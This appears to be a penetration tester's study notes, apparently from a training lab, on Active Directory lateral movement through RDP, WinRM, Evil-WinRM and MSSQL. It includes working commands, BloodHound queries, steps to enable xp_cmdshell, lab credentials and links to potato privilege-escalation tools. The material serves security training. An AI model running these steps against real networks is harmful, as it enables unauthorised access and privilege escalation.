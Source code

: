 ## Lateral Movement
If we take over an account with local admin rights over a host, we can perform a Pass-the-Hash attack to authenticate via the SMB protocol.

- RDP
- PowerShell Remoting (WinRM)
- MSSQL Server

Use BloodHound to find:
- CanRDP
- CanPSRemote
- SQLAdmin

## Remote Desktop

**Enumerating the Remote Desktop Users Group
```
Import-Module .\PowerView.ps1
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```

**Checking the Domain Users Group's Local Admin & Execution Rights using BloodHound
BloodHound > Node Info > Local Admin Rights
- If we gain control over a user via LLMNR/NBT-NS Response Spoofing or Kerberoasting, we can search for the username in BloodHound and check remote access rights under Execution Rights under Node Info


## WinRM

**Enumerating the Remote Management Group
```
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

**Raw BloodHound query
```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

**Establishing WinRM Session from Windows
```
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
Exit-PSSession
```

**Installing Evil-WinRM
```
gem install evil-winrm
```

**Connecting to a Target with Evil-WinRM and Valid Credentials
```
evil-winrm -i 10.129.201.234 -u forend
```


## SQL Server Admin
```cypher - BloodHound
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

**Enumerating MSSQL Instances with PowerUpSQL
```
cd .\PowerUpSQL\
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

**mssqlclient from Linux
```
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
enable_xp_cmdshell
```

**Enumerating Rights on the System using xp_cmdshell
```
whoami /priv
```
SeImpersonatePrivilege tools:
- https://github.com/ohpe/juicy-potato
- https://github.com/itm4n/PrintSpoofer
- https://github.com/antonioCoco/RoguePotato
